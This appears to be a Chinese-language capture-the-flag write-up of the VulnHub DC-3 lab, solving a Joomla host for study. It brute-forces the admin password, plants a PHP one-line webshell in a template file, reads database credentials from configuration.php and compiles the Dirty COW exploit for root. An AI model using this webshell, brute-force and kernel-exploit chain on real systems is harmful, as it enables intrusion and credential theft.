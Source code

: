 # DC: 3.2

2025.02.22 https://www.vulnhub.com/entry/dc-32,312/

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
80/tcp open  http
```

80 web 是 Joomla CMS，并且发现一个用户名 admin ，http://192.168.5.40/README.txt发现版本 3.7 有一个 sql 注入的利用，但是没有成功。

目前只好尝试爆破密码，常使用一个小字典先进行爆破：

```
python3 ~/tools/blast/blast_joomla.py -u http://192.168.5.40 -w ~/tools/dict/passwd_1050.txt  -usr admin
```

得到用户登陆凭据: admin:snoopy 登陆系统 http://192.168.5.40/administrator/ 。

在顶部菜单中，Extensions -> Templates -> Templates 选中一个主题 Beez3 ，编辑它的 error.php 页面，在最上面加入 php 一句话木马：`system($_GET['cmd']);`，然后点击保存。

通过下面的语句测试一句话是否成功：

```
curl -s 'http://192.168.5.40/templates/beez3/error.php?cmd=id'

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

执行反弹命令到 kali 上，先查看到 joomla 的数据库配置文件：

```
www-data@DC-3:/var/www/html$ cat configuration.php

public $user = 'root';
public $password = 'squires';
public $db = 'joomladb';
public $dbprefix = 'd8uea_';
public $live_site = '';
public $secret = '7M6S1HqGMvt1JYkY';
```

数据库的 d8uea_users 表中没有其他用户。

没有找到提权到 DC3 的路径，看看内核版本 4.4.0-21-generic 可以使用脏牛，将 https://www.exploit-db.com/download/40847 下载到目标机器上，进行编译：

```
g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cow.cpp -lutil
./dcow -s
```

获得最终 root flag：

```
root@DC-3:~# cat the-flag.txt
 __        __   _ _   ____                   _ _ _ _
 \ \      / /__| | | |  _ \  ___  _ __   ___| | | | |
  \ \ /\ / / _ \ | | | | | |/ _ \| '_ \ / _ \ | | | |
   \ V  V /  __/ | | | |_| | (_) | | | |  __/_|_|_|_|
    \_/\_/ \___|_|_| |____/ \___/|_| |_|\___(_|_|_|_)


Congratulations are in order.  :-)

I hope you've enjoyed this challenge as I enjoyed making it.

If there are any ways that I can improve these little challenges,
please let me know.

As per usual, comments and complaints can be sent via Twitter to @DCAU7

Have a great day!!!!
```
